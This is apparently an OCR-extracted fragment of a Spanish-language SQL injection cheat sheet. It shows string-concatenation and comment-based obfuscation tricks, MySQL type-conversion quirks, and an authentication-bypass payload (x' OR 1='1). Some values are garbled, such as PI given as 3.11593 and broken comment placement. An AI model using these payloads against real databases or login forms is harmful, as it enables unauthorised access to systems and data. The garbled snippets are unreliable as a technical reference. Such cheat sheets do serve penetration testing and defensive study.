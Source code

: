 ```bash
SELECT 'He'||'ll'||'o'
SELECT CONCAT('He','llo')
SELECT NVL('Hello', 'Goodbye')
```

Obuscar la concatenación de cuerda:

```bash
SELECT q'[]'||'He'||'ll'/**/'o'
SELECT CONCAT(/**/'He'/**/,/**/'ll'/**/)
```

Integers:

* Ejemplo es utilizar el valor PI (3.11593...). Con FLOOR para obtener el valor 3, y CEIL para obtener el valor 4
* Podemos usar la función del sistema como versión() y obtener el valor 5,6

Por ejemplo

```bash
ceil(pi()*3) = 10
```

### MySQL Type Conversion

Combinando operaciones aritméticas con diferentes tipos:

```bash
SELECT ~'-2it\'s a kind of magic'
```

Números vs Booleans:

```bash
SELECT ... 1=TRUE
SELECT ... 2! =TRUE
SELECT ... OR 1
SELECT ... AND 1
```

Strings vs Numbers vs Booleans:

```bash
SELECT ... VERSION()=5.5 #5.5.30
SELECT ... @@VERSION()=5.5 #5.5.30
SELECT ... ('type'+'cast')=0 #TRUE
SELECT ~'-2it\'s a kind of mafic'        '#1
SELECT ~'-1337a kind of magic'-25 #1337
```

Bypassing Authentication:

```bash
# Put all of this together and try to think of some alternatives to the classic

x' OR 1='1
```
